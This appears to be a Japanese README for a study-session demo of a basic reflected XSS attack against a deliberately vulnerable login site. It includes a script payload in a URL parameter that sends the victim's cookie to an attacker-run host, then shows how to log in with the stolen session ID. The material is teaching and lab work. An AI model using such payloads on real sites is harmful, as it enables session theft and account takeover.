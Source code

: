 # XSSの初歩的な例と実害

を説明するデモです．

## 状況

XSS (_クロス_ サイト スクリプティング) の性質上，localhostの他にも別サイトが必要でした．

<dl>
  <dt>http://当日教える.com</dt>
  <dd>脆弱性を持ったサイト(以下，脆弱サイト)．ログイン機能がある．</dd>

  <dt>http://localhost:5000</dt>
  <dd>攻撃者の用意したサイト(以下，攻撃者サイト) ．</dd>

  <dt>被害者</dt>
  <dd>脆弱サイトのユーザ．攻撃者に脆弱サイトへログインされてしまう．</dd>
</dl>

## 脆弱サイトをいじってみる

```bash
$ browser http://当日教える.com
```

1. `/` において， `user: sampleuser`, `pass: samplepass` と入力してログイン
1. `/login` にて，「ようこそ，sampleuserさん!!」と表示されることを確認

_攻撃目的: `sampleuser/samplepass` を知らないのに，`sampleuser`としてログインする_

## 攻撃手順

### 攻撃者サイトを準備

```bash
$ cd 20131117-tokumaru-benkyokai/sample-sites/ex00_WhatIsXSS
$ carton install  # 大体5分以上かかります・・・・
$ carton exec perl -Ilib script/ex00_whatisxss-server
$ browser http://localhost:5000
```

### 怪しいリンクを踏ませて脆弱サイトのCookieを入手

1. 下記リンクは，攻撃者がTwitterなどにポストする(短縮URLなど使うとなおのこと引っ掛けやすい)
1. 被害者が下記リンクを踏む
1. 脆弱サイトにてXSS攻撃が成立する
1. 攻撃者サイトにリダイレクトされ，攻撃者サイトに脆弱サイトのCookieが表示される(表示されるということは，その文字列を攻撃者サーバに保存することも容易)

```bash
$ browser http://当日教える.com/?confirm=<script>window.location="http://localhost:5000/?sid="+edocument.cookie</script>
```

### Cookie中のセッションIDを使って脆弱サイトにログイン

1. 攻撃者は先程手にしたセッションIDをコピー
1. 下記のように脆弱サイトにアクセスし，ログインが成立

```bash
$ browser http://当日教える.com/login?sid=[セッションID]
```
